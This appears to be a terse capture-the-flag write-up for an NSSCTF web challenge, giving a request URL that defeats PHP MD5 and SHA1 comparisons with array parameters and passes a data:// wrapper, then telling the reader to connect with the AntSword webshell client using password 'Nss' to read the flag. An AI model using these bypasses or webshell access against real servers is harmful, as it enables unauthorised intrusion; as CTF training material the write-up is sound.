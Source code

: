 #MD5

```url
http://node6.anna.nssctf.cn:28922/?md5_1[]=1&md5_2[]=2&sha1_1[]=1&sha1_2[]=2&new_player=data://text/plain,Welcome to NSSCTF!!!
```

蚁剑连接，密码 `Nss`

flag 在根目录
